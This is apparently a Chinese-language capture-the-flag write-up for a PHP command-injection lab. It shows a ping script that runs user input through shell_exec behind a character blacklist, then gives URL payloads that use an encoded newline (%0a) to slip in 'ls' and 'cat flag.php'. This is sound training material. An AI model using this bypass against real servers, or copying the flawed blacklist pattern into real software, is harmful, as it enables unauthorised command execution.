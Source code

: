 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要的逻辑代码：

```php
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
}
show_source(__FILE__);
?>
```

3.我们可以看到题目中主要获取用户输入ip参数然后进行ping相应ip操作

![](files_for_writeup/2.png)

4.我们可以看到题目中使用黑名单过滤了很多的管道符，但是我们任然可以用`%0a`进行绕过。
构造payload：

```php
http://IP:PORT/challenge9.php?ip=127.0.0.1%0als
```
![](files_for_writeup/3.png)


4.获取flag，构造payload：

```php
http://IP:PORT/challenge9.php?ip=127.0.0.1%0acat flag.php
```
右键查看网页源代码，得到flag

![](files_for_writeup/4.png)

